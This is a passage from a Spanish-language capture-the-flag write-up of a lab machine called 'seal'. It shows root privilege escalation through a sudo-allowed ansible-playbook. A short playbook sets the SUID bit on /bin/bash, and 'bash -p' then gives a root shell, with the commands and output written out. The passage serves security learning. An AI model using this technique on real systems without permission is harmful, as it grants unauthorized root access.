 Podemos utilizar esto para crear un playbook malicioso para ejecutar un comando a nivel de sistema y de esta forma escalar privilegios.

Podemos ver los permisos de `/bin/bash`
```console
luis@seal:~$ ls -la /bin/bash                                                             
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

Podemos crear un pequeño playbook para ejecutar el comando `chmod u+s /bin/bash` a nivel de sistema y asignar el bit SUID a `/bin/bash` para poder lanzarnos una `bash` como `root
`
```yml
---
- hosts: localhost
  become: yes
  tasks:
    - name: Establecer el bit SUID en /bin/bash
      command: chmod u+s /bin/bash
```

Y ahora simplemente queda ejecutarlo.
```console
luis@seal:~$ sudo /usr/bin/ansible-playbook test.yml 
[WARNING]: provided hosts list is empty, only localhost is available. Note that the
implicit localhost does not match 'all'

PLAY [localhost] *************************************************************************

TASK [Gathering Facts] *******************************************************************
ok: [localhost]

TASK [Establecer el bit SUID en /bin/bash] ***********************************************
[WARNING]: Consider using the file module with mode rather than running 'chmod'.  If you
need to use command because file is insufficient you can add 'warn: false' to this
command task or set 'command_warnings=False' in ansible.cfg to get rid of this message.
changed: [localhost]

PLAY RECAP *******************************************************************************
localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   

luis@seal:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

Y ahora con `bash -p` vemos que conseguimos una `bash` con el `euid` 0, es decir, `root`
```console
luis@seal:~$ bash -p
bash-5.0# id
uid=1000(luis) gid=1000(luis) euid=0(root) groups=1000(luis)
```

Y ya podemos dirigirnos a `/root` y leer la flag de `root`
```console
bash-5.0# cat root.txt 
a7eea3c65bacb...
```

¡Y ya estaría!

Happy Hacking! 🚀